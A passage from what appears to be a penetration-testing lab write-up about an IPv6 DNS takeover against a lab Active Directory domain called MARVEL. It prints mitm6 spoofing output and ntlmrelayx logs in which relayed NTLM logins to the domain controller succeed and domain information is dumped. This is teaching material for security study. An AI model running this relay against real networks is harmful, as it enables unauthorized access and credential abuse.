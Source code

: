 ```
Sent spoofed reply for wpad.MARVEL.local. to fe80::7985:c3bd:f09e:1a20
Sent spoofed reply for wpad.MARVEL.local. to fe80::2dd7:9919:b2a:d026
Sent spoofed reply for fakewpad.marvel.local. to fe80::7985:c3bd:f09e:1a20
Sent spoofed reply for wpad.marvel.local. to fe80::2dd7:9919:b2a:d026

(...)
```

When an event occurs on the network now, e.g. a reboot of a machine or somebody
logging in to a device, the credentials will be relayed to the domain controller
via `ntlmrelayx`. The information that we can get from this relay depends on
who the user is. To simulate such an event, we reboot the machine `THEPUNISHER`.

**Warning!** Running `mitm6` for more than 5-10 minutes will cause outages in
the network, therefore it should only be run in short sprints. We are the DNS
server while running `mitm6`, and it might break something on the network.

After some time, we can see success messages in the `ntlmrelayx` output, such
as `HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/THEPUNISHER$
SUCCEED`. This means we have successfully logged in without providing either
password or password hash!

```
[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client ::ffff:10.0.2.4
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client ::ffff:10.0.2.6
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client ::ffff:10.0.2.4
[*] HTTPD(80): Connection from ::ffff:10.0.2.4 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client ::ffff:10.0.2.6
[*] HTTPD(80): Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD(80): Client requested path: http://www.msftconnecttest.com/connecttest.txt
[-] Authenticating against ldaps://10.0.2.15 as SPIDERMAN/PETERPARKER FAILED
[*] HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/FCASTLE SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/THEPUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/THEPUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
[*] All targets processed!
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, but there are no more targets left!

(...)
```

